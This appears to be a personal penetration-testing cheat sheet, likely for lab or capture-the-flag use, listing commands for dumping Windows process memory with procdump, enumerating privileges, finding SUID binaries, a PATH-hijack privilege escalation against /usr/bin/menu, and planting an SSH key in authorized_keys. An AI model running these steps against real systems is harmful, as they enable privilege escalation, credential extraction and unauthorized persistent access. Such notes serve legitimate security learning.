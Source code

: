 ## DUMP PROCESSES WINDOWS
```powershell
get-process
get-process -name [ProcessName]
.\procdump.exe -ma [ProcessID] [OutputFileName]
```

## LIST SUDO COMMANDS
```bash
sudo -l
```

## Enummeration Scripts
### Local
* LinEnum
* LinPEAS
* WinPEAS
* pspys - lists running processes, good for figguering out what an app does
* deepce - docker enummeration/container escape
### Remote
* enum4linux [OPTIONS] [IP] - works for windows and linux SMB SAMBA

## SUID
find SUID : `find / -perm -u=s -type f 2>/dev/null`\
Exploit /usr/bin/menu with SUID :
```bash
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

## ADD DOMAIN
```bash
sudo nano /etc/hosts
```
> add [IPADRESS] [DOMAIN], save and it should work!

## SSH:
```bash
ssh-keygen -f [NAME]
```
>now i can write the [NAME].pub file content (except for the last part with my USER@IP) and add “ssh-rsa “ before the key if not there) to the /home/[USER]/.ssh/authorized_keys/, then
```bash
chmod 700 [NAME]
ssh -i [NAME] [USER]@[IP]
```
